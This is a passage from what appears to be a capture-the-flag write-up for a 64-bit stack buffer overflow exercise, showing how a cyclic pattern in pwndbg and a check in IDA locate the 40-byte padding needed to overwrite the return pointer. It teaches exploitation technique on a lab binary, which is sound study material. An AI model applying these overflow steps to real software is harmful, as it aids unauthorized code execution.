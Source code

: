 ```
0   0x00001060 0x00601060 17  18   .data   ascii /bin/cat flag.txt
```

Great, a very similar attack surface, but now we will be dealing with registers.

### Reversing

There is really nothing to reverse here since we did all of the work above.

The target is the same binary, just compiled using 64-bit architecture.

### Manual Exploitation

Time to dive back into `pwndbg`!

**Generate a cyclic pattern of 100-bytes:**

```
cyclic 100
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
```

**Send the payload in and see where it crashes/begins overwriting `RIP`:**

```
r
<paste_here>
```

<figure><img src="../../.gitbook/assets/image (153).png" alt=""><figcaption></figcaption></figure>

**We start overwriting at the part of the pattern with and can find the offset with:**

```
eaaaaaaa

cyclic -l eaaaaaaa
Finding cyclic pattern of 8 bytes: b'eaaaaaaa' (hex: 0x6561616161616161)
Found at offset 32
```

The RIP is being overwritten at 32 bytes.

This means our padding will be 40-bytes.

**This is because:**

<mark style="color:green;">cyclic pattern (eaaaaaaaa) + RIP is 8 bytes after = 40 bytes to overwrite the return pointer</mark>.

**Further confirming this with IDA:**

<figure><img src="../../.gitbook/assets/image (154).png" alt=""><figcaption></figcaption></figure>

<mark style="color:green;">`0x20 = 32`</mark> <mark style="color:green;"></mark><mark style="color:green;">in decimal + 8-bytes for</mark> <mark style="color:green;"></mark><mark style="color:green;">`RIP`</mark> <mark style="color:green;"></mark><mark style="color:green;">=</mark> <mark style="color:green;"></mark><mark style="color:green;">`40`</mark> <mark style="color:green;"></mark><mark style="color:green;">(padding)</mark>.
